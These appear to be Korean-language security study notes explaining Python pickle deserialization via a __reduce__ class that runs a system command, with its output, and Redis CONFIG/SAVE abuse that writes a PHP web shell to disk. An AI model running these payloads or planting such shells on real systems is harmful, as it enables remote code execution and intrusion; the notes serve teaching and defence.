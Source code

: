 ```bash
$ python3 pickleTest.py 
b"\x80\x03cmain\nTestClass\nq\x00)\x81q\x01}q\x02(X\x01\x00\x00\x00Aq\x03MizX\x01\x00\x00\x00Bq\x04M\x11'ub."
31337 10001
```

##### Serialize / Deserialize 공격
파이썬에서 직렬화와 역직렬화를 수행하는 대표적인 모듈로 pickle과 yaml이 존재
이 중 pickle 모듈은 객체를 직렬화하여 파일에 저장할 수 있는 기능과 파일에 저장된 객체를 가져와 역직렬화하는 기능도 제공
모듈의 공식 문서를 살펴보면, 신뢰할 수 있는 데이터에 한해서 역직렬화를 수행하라는 경고문을 확인할 수 있음
해당 모듈은 다양한 클래스 인스턴스를 제공하는데, 
이 중 object.__reduce__()는 객체 계층 구조를 unpickling 할 때 객체를 재구성하는 튜플을 반환해주는 메소드로, 
호출 가능한 객체를 반환할 수 있음

이 말은 즉, 호출 가능한 객체에 system과 같이 명령어를 실행할 수 있는 함수를 반환하면 시스템 명령어를 실행할 수 있음
아래는 각각 __reduce__ 메소드를 이용해 임의 코드를 실행하는 예시 코드와 실행 결과
__reduce__ 함수를 살펴보면, os.system, ("id", )를 반환하는 것을 확인할 수 있음
실행 결과를 살펴보면, 역직렬화를 수행하면서 id 명령어가 실행된 것을 확인할 수 있음

	import pickle
	import os
	class TestClass:
	  def __reduce__(self):
		return os.system, ("id", )
	ClassA = TestClass()
	# ClassA 직렬화
	ClassA_dump = pickle.dumps(ClassA)
	print(ClassA_dump)
	# 역직렬화
	pickle.loads(ClassA_dump)


	$ python3 pickleExploit.py
	b'\x80\x03cposix\nsystem\nq\x00X\x02\x00\x00\x00idq\x01\x85q\x02Rq\x03.'
	uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)


##### Redis 명령어: SAVE
Redis는 메모리에 데이터를 저장하는 인 메모리(In-Memory) 데이터베이스
메모리는 휘발성이라는 특징을 갖고 있기 때문에 데이터 손실 방지를 위해 일정 시간마다 메모리 데이터를 파일 시스템에 저장함
Redis는 명령어를 이용해 메모리 데이터를 저장하는 파일의 저장 주기를 지정하거나 즉시 저장할 수 있으며 
저장되는 파일의 경로와 이름, 그리고 저장할 데이터를 함께 설정할 수 있음

아래는 파일 저장 경로를 “/tmp”, 파일 이름을 “redis.php”로 지정하고 셸을 실행하는 PHP 코드를 저장함
해당 명령어가 실행되면 성공적으로 파일이 생성되며 공격자는 이를 통해 PHP 등의 다른 애플리케이션과 연계해 공격을 수행할 수 있음

```sql
#SAVE 명령어를 통한 웹셸 삽입

CONFIG set dir /tmp
CONFIG set dbfilename redis.php
SET test "<?php system($_GET['cmd']); ?>"
SAVE
```

